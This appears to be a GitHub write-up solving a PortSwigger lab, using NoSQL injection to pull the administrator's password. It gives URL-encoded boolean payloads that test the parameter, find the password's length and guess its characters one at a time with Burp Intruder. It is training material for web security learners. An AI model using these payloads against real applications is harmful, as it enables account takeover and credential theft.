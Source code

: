 ## Welcome My friends , Today we will attack this [Lab: Exploiting NoSQL injection to extract data](https://portswigger.net/web-security/learning-paths/nosql-injection/exploiting-syntax-injection-to-extract-data/nosql-injection/lab-nosql-injection-extract-data#)



![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/6e86360f-5c06-426a-a8b3-9dddf166fdc1)

We have credentials: ```wiener:peter``` 


Watch this following vedio:

[Screencast from 2024-07-10 05:41:57 AM.webm](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/39e88a6d-06b3-4627-b742-675491562c53)


We know that there acount of username is ```administrator```  Let's go hack his password.

Let's test this prameter if it is vulnerable NoSQLI or not.
We use this payload:

```
wiener' && '1'=='1
```

If we use that payload we will have a error


![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/a021cf18-8b50-4bdd-9a20-dbbca81396c5)


This error because we exploit parameter in url and should encode this payload such as following:

We can select this payload in repeater and ```CTL + U```

```
wiener'+%26%26+'1'%3d%3d'1
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/21b84aef-ab55-4b5b-9f0b-fda6b01771ec)

because ```1==1``` is true so data is showd.

Now Let's change this condition ```1==2``` is false


```
wiener' && '1'=='2
```

after encoding url:

```
wiener'+%26%26+'1'%3d%3d'2
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/ff732b8e-4224-42d0-be7f-c1595142b93e)

Ok great It is here vulnerable ...

# 1 In first should known length of ```administrator's``` account:


```
administrator' && this.password.length == 10 || 'a'=='b
```

after encoding url:

```
administrator'+%26%26+this.password.length+%3d%3d+10+||+'a'%3d%3d'b
```


![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/8a9adfcc-be89-4012-846f-4cf3f914c3eb)


umm this password does'nt contain ```10``` letters, ok we will try ```8``` letters



```
administrator'+%26%26+this.password.length+%3d%3d+8+||+'a'%3d%3d'b
```


![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/367a917e-abfa-4374-8fff-21fae705058d)


Great, Now we know that password is 8 letters but we don't know these letters.

# 2 In second should known letters of ```administrator's``` account:

Here we try guess first letters by ```a```

```
administrator' && this.password[0]=='a
```

after encodig url:

```
administrator'+%26%26+this.password[0]%3d%3d'a
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/967e59be-9264-4ede-9502-4e6b6995abc0)



umm this password does'nt contain first letter ```a``` , ok we will try ```w``` 

```
administrator'+%26%26+this.password[0]%3d%3d'w
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/f7e9ce96-787c-4d52-b1bb-75c23e397597)



ok it is boring so we will using ```intruder```:

[Screencast from 2024-07-10 06:16:37 AM.webm](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/d2a72206-f9c0-425d-9f34-3ed4e85c57fc)


## Great we have password of administrator's account is ```wwhflfug``` 🥳.

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/855893c9-cbe2-4899-9c99-8a49c43de32c)






















